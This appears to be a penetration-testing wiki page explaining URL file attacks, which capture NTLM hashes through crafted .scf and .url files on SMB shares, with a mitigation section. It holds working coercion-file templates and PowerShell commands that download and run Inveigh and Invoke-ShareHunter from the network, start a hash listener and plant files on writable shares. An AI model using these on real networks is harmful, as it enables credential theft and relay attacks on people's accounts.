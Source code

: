 
## Description

A URL file attack is a type of network-based exploit that manipulates certain file formats to deceive systems into revealing sensitive information, such as NTLM hashes. This attack exploits the behaviour of URL files (.url), shell command files (.scf), and other file types to initiate connections to an adversary-controlled listener.

An adversary generates files with specific content that directs systems to a network resource managed by the attacker. These files can be of different types, such as .url, .scf, or .lnk:

- **.url File:** A shortcut file that contains a URL pointing to a remote server.
- **.scf File:** A Shell Command File configured to initiate a connection to a remote server.
- **.lnk File:** A Windows shortcut file crafted to point to a remote server.

The attacker distributes these malicious files to potential victims through email attachments, file-sharing services, or other means. When a victim interacts with the file (e.g., opening the file or even just viewing it within explorer), the file triggers the system to connect to the remote server specified in the file.

During the connection attempt, the victim’s system tries to authenticate with the remote server using NTLM (Windows authentication protocol). The attacker’s server captures the NTLM hash, which can then be used for further attacks, such as pass-the-hash attacks.

This document covers delivery through means of SMB shares.

## File Templates

```Powershell
[Shell]
Command=2
IconFile=\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

```Powershell
[InternetShortcut]
URL=\[Listener-IP]\share
```

## Performing the Attack from Windows

### Tools Required

- Inveigh: <https://github.com/Kevin-Robertson/Inveigh>
- Invoke-ShareHunter (Optional): <https://github.com/Leo4j/Invoke-ShareHunter>

### Permissions Required

- Local Administrator (If using Inveigh to capture hashes)
- Write permissions over a SMB share

Load Inveigh and configure listener

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# Load Inveigh and set listener IP (Attack System)
Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7
```

```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

# Identify writeable shares within the domain
Invoke-ShareHunter -Domain security.local

# Write NTLM coercion files to identified writeable shares
Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"
```

**Writing files to writeable shares**

![](../../Assets/Pasted%20image%2020250619212529.png)

**Later, a user browses to a share containing the crafted files and a NTLM hash is captured on the listener**

![](../../Assets/Pasted%20image%2020250619212707.png)

From this point, various opportunity exists to perform further compromise. The captured Hash may be cracked to reveal the underlying account password or the hash may be relayed using tools such as ntlmrelayx.;

## Mitigation

**Disable NTLM Authentication**

Disabling NTLM authentication within the domain is the most effective defence against this type of attack and other NTLM coercion-based attacks. However, it is understandable that disabling NTLM authentication within an enterprise may not be easily or quickly achievable for many organizations. In such cases, additional mitigations can be implemented. While these additional measures may not completely eliminate the attack vector, they can offer a degree of protection against this type of attack.

Reference: <https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787>

**Audit and restrict SMB share permissions**

URL file attacks are possible when an adversary controlled account has write access to SMB shares within the domain. The best defence here is to audit all SMB shares and remove unexpected or overly permissive write permissions from accounts that do not require that level of access. Broadly, domain user accounts often have write access to an undesirable number of shares within the enterprise and should be revoked.

## References

- <https://www.scip.ch/en/?labs.20210909>
- <https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication>

# Resources

- <https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf>

- [URL File Attack | Pentest Everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack)